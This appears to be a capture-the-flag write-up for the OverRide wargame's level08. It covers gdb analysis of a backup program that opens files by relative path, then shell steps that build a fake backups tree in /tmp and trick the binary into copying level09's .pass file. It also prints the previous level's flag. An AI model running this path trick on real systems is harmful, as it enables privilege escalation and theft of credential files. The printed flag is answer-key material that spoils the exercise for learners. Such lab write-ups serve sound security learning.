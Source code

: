 [README](../README.md)
# Level08
previous flag: `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`


## disas main
- <+95> : argument for fopen is prepared and we find out that it's an hardcoded relative (not absolute) path:
```
(gdb) x/s 0x400d6d
0x400d6d:	 "./backups/.log"
```
Summary: 
The program takes a filename as an argument, opens it for reading, creates a backup file in the ./backups/ directory with the same name as the original file, and writes the contents of the original file to the backup file. It also logs messages to a .log file in the same directory, indicating when it starts and finishes the backup process.

## vulnerability
- if we try to pass as argument the hardcoded path we have an error. It seems to be trying to open a file at the given path, but it's failing because the path is relative, not absolute.:
```
level08@OverRide:~$ ./level08 ./backups/.log
ERROR: Failed to open ./backups/./backups/.log
```
- The error message suggests that the program is trying to open a file in a backups directory that's located in the same directory as the program itself
- if we check the backups file and cat the .log we find that it contains the path to the .pass we want to cat:
```
cd ./backups/
level08@OverRide:~/backups$ ls
level08@OverRide:~/backups$ ls -la
total 4
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    49 Apr 30 00:05 .log
level08@OverRide:~/backups$ cat .log
LOG: Starting back up: /home/users/level09/.pass
```
## Solution
- since the program takes a relative path we can make it believe that we are in the home of user09 recreating the same file system structure in the only place where we have the privileges to do that, /tmp.
1. `cd /tmp` 
2. `mkdir -p ./backups/home/users/level09/`
from /tmp we launch the executable with the .pass we need. Because the program uses relative paths, it creates a backup of the password file in the backups directory that we created in /tmp.:
3. `~/level08 /home/users/level09/.pass`
we cat the backup that we created
4. `cat ./backups/home/users/level09/.pass`


